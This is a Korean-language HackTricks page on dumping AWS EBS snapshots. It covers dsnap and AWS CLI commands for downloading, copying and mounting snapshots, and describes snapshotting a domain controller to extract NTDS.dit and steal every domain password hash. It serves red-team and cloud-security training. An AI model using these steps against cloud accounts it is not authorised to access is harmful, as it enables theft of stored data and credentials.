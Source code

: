 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 스냅샷을 로컬에서 확인하기
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**참고**: `dsnap`은 공개 스냅샷을 다운로드할 수 없습니다. 이를 우회하려면 스냅샷을 개인 계정에 복사한 후 해당 스냅샷을 다운로드할 수 있습니다:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

이 기술에 대한 자세한 정보는 [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)의 원본 연구를 확인하세요.

Pacu를 사용하여 [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs__download_snapshots) 모듈로 이 작업을 수행할 수 있습니다.

## AWS에서 스냅샷 확인하기

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**당신의 제어 하에 있는 EC2 VM에 마운트하기** (백업 복사본과 동일한 지역에 있어야 함):

1단계: EC2 –> 볼륨으로 이동하여 원하는 크기와 유형의 새 볼륨을 생성합니다.

이 작업을 수행하려면 다음 명령을 따르십시오:

* EC2 인스턴스에 연결할 EBS 볼륨을 생성합니다.
* EBS 볼륨과 인스턴스가 동일한 존에 있는지 확인합니다.

2단계: 생성된 볼륨을 마우스 오른쪽 버튼으로 클릭하여 "볼륨 연결" 옵션을 선택합니다.

3단계: 인스턴스 텍스트 상자에서 인스턴스를 선택합니다.

이 작업을 수행하려면 다음 명령을 사용하십시오:

* EBS 볼륨을 연결합니다.

4단계: EC2 인스턴스에 로그인하고 `lsblk` 명령을 사용하여 사용 가능한 디스크를 나열합니다.

5단계: `sudo file -s /dev/xvdf` 명령을 사용하여 볼륨에 데이터가 있는지 확인합니다.

위 명령의 출력이 "/dev/xvdf: data"를 보여주면, 볼륨이 비어 있다는 의미입니다.

6단계: `sudo mkfs -t ext4 /dev/xvdf` 명령을 사용하여 볼륨을 ext4 파일 시스템으로 포맷합니다. 또는 `sudo mkfs -t xfs /dev/xvdf` 명령을 사용하여 xfs 형식도 사용할 수 있습니다. ext4 또는 xfs 중 하나를 사용해야 함을 유의하십시오.

7단계: 새 ext4 볼륨을 마운트할 선택한 디렉토리를 생성합니다. 예를 들어, "newvolume"이라는 이름을 사용할 수 있습니다.

이 작업을 수행하려면 `sudo mkdir /newvolume` 명령을 사용하십시오.

8단계: `sudo mount /dev/xvdf /newvolume/` 명령을 사용하여 볼륨을 "newvolume" 디렉토리에 마운트합니다.

9단계: "newvolume" 디렉토리로 이동하고 디스크 공간을 확인하여 볼륨 마운트를 검증합니다.

이 작업을 수행하려면 다음 명령을 사용하십시오:

* `/newvolume`으로 디렉토리를 변경합니다.
* `df -h .` 명령을 사용하여 디스크 공간을 확인합니다. 이 명령의 출력은 "newvolume" 디렉토리의 여유 공간을 보여야 합니다.

Pacu를 사용하여 `ebs__explore_snapshots` 모듈로 이 작업을 수행할 수 있습니다.

## AWS에서 스냅샷 확인하기 (cli 사용) 

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## 섀도우 복사

**`EC2:CreateSnapshot`** 권한을 가진 AWS 사용자는 **도메인 컨트롤러의 스냅샷을 생성**하여 이를 자신이 제어하는 인스턴스에 마운트하고 **NTDS.dit 및 SYSTEM** 레지스트리 하이브 파일을 내보내어 모든 도메인 사용자 해시를 훔칠 수 있습니다. 

이 도구를 사용하여 공격을 자동화할 수 있습니다: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) 또는 스냅샷을 생성한 후 이전 기술 중 하나를 사용할 수 있습니다.

## 참고자료

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
